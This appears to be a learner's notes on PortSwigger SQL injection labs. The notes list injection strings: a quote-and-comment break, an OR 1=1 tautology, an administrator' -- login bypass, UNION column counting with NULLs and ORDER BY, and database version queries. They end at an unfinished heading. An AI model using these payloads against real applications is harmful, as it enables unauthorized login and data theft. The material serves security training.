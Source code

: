 # PORTSWIGGER SQL INJECTION NOTES
LAB#1
--
URl
SQL INJECTION PRODUCT CATEGORY 
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
ANalysis
`SELECT * FROM products WHERE category = ''' AND released = 1 `
`SELECT * FROM products WHERE category = ''--' AND released = 1`
`SELECT * FROM products WHERE category = ''OR 1=1 --' AND released = 1`
NOTE
	-- nullifies the rest of the query

LAB#2 LOGIN
--
goal login to admin user
	steps 
		intercept request using burpsuite
		modify username to administrator' --

ANALYSIS
	select firstname from user WHERE username = 'admin' And password = 'admin'
	select firstname from user WHERE username = ''' And password = 'admin'
	select firstname from user WHERE username = 'administrator' --' And password = 'admin'
	select firstname from user WHERE username = 'administrator' or 1=1' And password = 'admin'



LAB#3
--
SQLI- UNION ATTACK 

	GOAL ; DETERMINING NUMBER OF COLUMNS RETURNED BY A QUERY
RULES
	    The individual queries must return the same number of columns.
		The data types in each column must be compatible between the individual queries.

E.G 
SELECT a, b FROM table1 UNION SELECT c, d from table2

SQLI ATTACK (#1)
SELECT ? from table1 UNION SELECT NULL
-ERROR->> incorrect number of colums 
SELECT ? from table1 UNION SELECT NULL, NULL
-200 RESPONSE CODE -->  CORRECT NUMBER OF COLUMNS


SQLI ATTACK (#2)
SELECT a,b FROM TABLE1 ORDER BY 1
SELECT a,b FROM TABLE1 ORDER BY 2

NOTE 

 On Oracle, every `SELECT` query must use the `FROM` keyword and specify a valid table. There is a built-in table on Oracle called `dual` which can be used for this purpose. So the injected queries on Oracle would need to look like:
		     ' UNION SELECT NULL FROM DUAL--
		PRINTING DATABASE VERSION
				Oracle
						SELECT banner FROM v$version   SELECT version FROM v$instance   `
				Microsoft
						SELECT @@version`
				PostgreSQL
						SELECT version()`
				MySQL
						SELECT @@version
	STRING CONCATENATION